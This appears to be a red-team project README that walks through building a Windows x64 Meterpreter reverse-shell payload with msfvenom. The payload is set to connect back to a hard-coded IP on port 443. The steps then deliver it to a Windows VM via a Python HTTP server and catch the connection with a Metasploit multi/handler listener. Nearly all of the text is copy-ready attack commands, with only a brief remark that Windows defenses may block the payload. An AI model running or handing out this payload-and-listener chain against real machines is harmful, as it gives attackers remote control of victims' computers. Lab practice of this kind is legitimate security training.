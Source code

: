 # Generating and Handling Windows Payloads with Metasploit

## 1. Generate a Windows 10/11 x64 Payload

Use the following command in Kali Linux to generate a conventional Windows 10/11 x64 payload with `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=20.40.46.181 LPORT=443 -f exe -o reverse.exe
```
## 2. Update LHOST and LPORT

    Change LHOST to the IP address of your Kali Linux machine.
    Change LPORT to the listening port on your Kali Linux machine. This can be any open port on Kali Linux.
![alt text](https://github.com/JOSHUAPBIJU/Project-win-evasion-RedTeam/blob/main/Resource/MSF%201.png)
## 3. Transfer the Payload to a Windows VM

After generating the msfvenom payload for Windows 10/11 x64, transfer the payload to the testing Windows 10/11 VM using a Python HTTP server:
```bash
python3 -m http.server
```
## 4. Set Up and Start the Metasploit Listener

After successfully copying or sending the payload to the Windows VM, run the following command to set up and listen for a reverse connection from the Windows VM:
```bash
sudo msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 20.40.46.181; set LPORT 443; exploit"
```
## 5. Security Considerations

In this scenario, updated Windows 10/11 security features may block and isolate the executing payload, potentially removing it from the copied location.
## 6. Note

Ensure that the steps to generate and execute the payload are performed on Kali Linux with Metasploit Framework.
> Feel free to adjust the IP address and port number as needed for your specific setup!
